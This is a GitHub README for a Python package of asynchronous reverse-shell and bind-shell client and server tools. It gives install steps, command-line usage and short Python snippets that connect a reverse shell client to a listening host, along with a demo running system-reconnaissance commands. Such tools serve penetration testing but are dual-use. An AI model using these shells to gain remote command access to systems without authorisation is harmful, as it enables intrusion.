 # AsyncRemoteShell

## Description
This package implement 4 tools for asynchronous remote commands :
- ReverseShellClient
- ReverseShellServer
- ShellClient
- ShellServer

## Requirements
This package require :
- python3
- python3 Standard Library

## Installation

```bash
pip install AsyncRemoteShell
```

## Usages

### Commands

#### ReverseShell

```bash
ReverseShellClient
ReverseShellClient --interface=127.0.0.1 --port=45678
ReverseShellServer
ReverseShellServer -i=localhost -p=45678
```

#### Shell

```bash
ShellClient
ShellClient -i=10.0.0.2 --port=56789
ShellServer
ShellServer --interface= -p=56789
```

### Python package commands

```bash
python3 -m AsyncRemoteShell ShellServer
python3 -m AsyncRemoteShell ShellClient

python3 -m AsyncRemoteShell ShellServer -i=localhost -p=3456
python3 -m AsyncRemoteShell ShellClient --interface=localhost --port=3456

python3 -m AsyncRemoteShell.ShellServer
python3 -m AsyncRemoteShell.ShellClient

python3 -m AsyncRemoteShell.ShellServer --interface=localhost --port=3456
python3 -m AsyncRemoteShell.ShellClient -i=localhost -p=3456

python3 -m AsyncRemoteShell ReverseShellServer
python3 -m AsyncRemoteShell ReverseShellClient

python3 -m AsyncRemoteShell ReverseShellServer -i=localhost -p=3456
python3 -m AsyncRemoteShell ReverseShellClient --interface=localhost --port=3456

python3 -m AsyncRemoteShell.ReverseShellServer
python3 -m AsyncRemoteShell.ReverseShellClient

python3 -m AsyncRemoteShell.ReverseShellServer --interface=localhost --port=3456
python3 -m AsyncRemoteShell.ReverseShellClient -i=localhost -p=3456
```

### Python executable

Same commands than python package `python3 -m AsyncRemoteShell <MODULE> [OPTIONS]`.

```bash
python3 AsyncRemoteShell.pyz ShellServer

chmod u+x AsyncRemoteShell.pyz
./AsyncRemoteShell.pyz ShellClient -i=localhost --port=45678
```

### Python3

#### ReverseShell

Client:
```python
from AsyncRemoteShell import ReverseShellClient
import asyncore
ReverseShellClient("10.0.0.2", 45678) # host and port is required
asyncore.loop()
```

Server:
```python
from AsyncRemoteShell import ReverseShellServer
import asyncore
ReverseShellServer("", 45678) # interface and port is required
asyncore.loop()
```

#### Shell

Client:
```python 
from AsyncRemoteShell import ShellClient
import asyncore
ShellClient("10.0.0.2", 45678) # host and port is required
asyncore.loop()
```

Server:
```python 
from AsyncRemoteShell import ShellServer
import asyncore
ShellServer("", 45678) # interface and port is required
asyncore.loop()
```

## Why Asynchronous Shell

You can install this package on Windows and execute this script:
```python
from time import perf_counter
from os import system
t1 = perf_counter(); system('powershell -c "Get-PSDrive" & netstat & systeminfo'); t2 = perf_counter()
print(f"Execution time : {t2 - t1} s")
```

Launch `ShellServer` with command line and launch `ShellClient -i=localhost -p=45678` and write in shell: `powershell -c "Get-PSDrive" & netstat & systeminfo`.

Compare execution time.

## Links
 - [AsyncRemoteShell Github Page](https://github.com/mauricelambert/AsyncRemoteShell)
 - [ReverseShellServer Documentation](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell/ReverseShellServer.html)
 - [ReverseShellClient Documentation](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell/ReverseShellClient.html)
 - [ShellServer Documentation](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell/ShellServer.html)
 - [ShellClient Documentation](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell/ShellClient.html)
 - [commons Documentation](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell/commons.html)
 - [Download as python executable](https://mauricelambert.github.io/info/python/security/AsyncRemoteShell.pyz)
 - [Pypi package](https://pypi.org/project/AsyncRemoteShell/)

## Licence
Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
